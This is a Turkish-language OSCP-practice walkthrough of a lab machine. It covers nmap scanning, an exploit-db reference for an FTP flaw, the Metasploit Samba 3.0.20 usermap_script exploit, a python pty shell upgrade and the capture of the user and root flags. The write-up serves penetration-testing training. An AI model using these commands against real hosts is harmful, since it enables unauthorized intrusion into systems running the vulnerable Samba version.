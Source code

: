 # OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  
```
 
![image](./assets/5.PNG)

https://www.exploit-db.com/exploits/17491 - FTP versiyonunda Command Execution açığı olduğu görülüyor. 

FTP’den girmeyi denedim. 

```console
tcp> open 

(to) 10.129.86.76  
```

![image](./assets/6.PNG)


PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 
 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 

 
```console
msf6 > search samba 3.0.20 
```

![image](./assets/1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](./assets/2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](./assets/3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](./assets/4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 

